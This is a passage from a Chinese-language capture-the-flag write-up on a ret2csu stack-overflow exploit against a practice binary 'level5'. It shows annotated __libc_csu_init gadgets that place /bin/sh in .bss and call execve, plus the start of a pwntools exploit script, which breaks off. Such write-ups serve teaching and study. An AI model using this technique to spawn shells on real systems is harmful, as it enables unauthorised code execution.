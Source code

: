 我们知道rsp+0x38来到return，return什么呢，我们设计的是让他返回Main函数。

![image-20230424204347435](https://gitee.com/noble_chiam/Pic-Go-Pic-Bed/raw/master/Typora/2023-04-24 20:43:48.png)

**第二次Payload**

利用栈溢出执行 libc_csu_gadgets把system和/bin/sh写入.bss段

原理类似，只是传入数据不同，

![image-20230424205539960](https://gitee.com/noble_chiam/Pic-Go-Pic-Bed/raw/master/Typora/2023-04-24 20:55:41.png)

然后csu_gadget_1 执行时：

```shell
loc_4005F0:
mov     rdx, r15          --------------------------------------16
mov     rsi, r14	      --------------------------------------bss+base	
mov     edi, r13d         --------------------------------------0
call    qword ptr [r12+rbx*8]   --------------------------------read_got(/bin/sh读入到bss)
add     rbx, 1            --------------------------------------0+1=1
cmp     rbx, rbp		  --------------------------------------1==1  zf=1
jnz     short loc_4005F0  --------------------------------------不跳转
```

**第三次Payload**

![image-20230424213501512](https://gitee.com/noble_chiam/Pic-Go-Pic-Bed/raw/master/Typora/2023-04-24 21:35:02.png)

/bin/sh放置在r13中，作为exe函数的参数，exe函数放置在r12中，作为call的执行函数。

```shell
loc_4005F0:
mov     rdx, r15          --------------------------------------0
mov     rsi, r14	      --------------------------------------0
mov     edi, r13d         --------------------------------------bss_base+8(/bin/sh)
call    qword ptr [r12+rbx*8]   --------------------------------bss_base(execve())
add     rbx, 1            --------------------------------------0+1=1
cmp     rbx, rbp		  --------------------------------------1==1  zf=1
jnz     short loc_4005F0  --------------------------------------不跳转
```



至此，我们可以写出完成exp代码：

```python 
from pwn import *
from LibcSearcher import *

elf = ELF('./level5')
sh = process('./level5')

write_got = elf.got['write'] 		#获取write函数的got地址
read_got = elf.got['read']				#获取read函数的got地址
main_addr = elf.symbols['main']  #获取main函数的函数地址
bss_base = elf.bss()							#获取bss段地址

csu_gadget_1 = 0x00000000004005F0 
#_libc_csu_init函数中位置靠前的gadget，即向rdi、rsi、rdx寄存器mov的gadget
# .text:00000000004005F0 4C 89 FA                      mov     rdx, r15
# .text:00000000004005F3 4C 89 F6                      mov     rsi, r14
# .text:00000000004005F6 44 89 EF                      mov     edi, r13d
# .text:00000000004005F9 41 FF 14 DC                   call    qword ptr [r12+rbx*8]

csu_gadget_2 = 0x0000000000400606
#_libc_csu_init函数中位置靠后的gadget，即pop rbx、rbp、r12、r13、r14、r15寄存器的gadget
# .text:0000000000400606 48 8B 5C 24 08                mov     rbx, [rsp+38h+var_30]
# .text:000000000040060B 48 8B 6C 24 10                mov     rbp, [rsp+38h+var_28]
```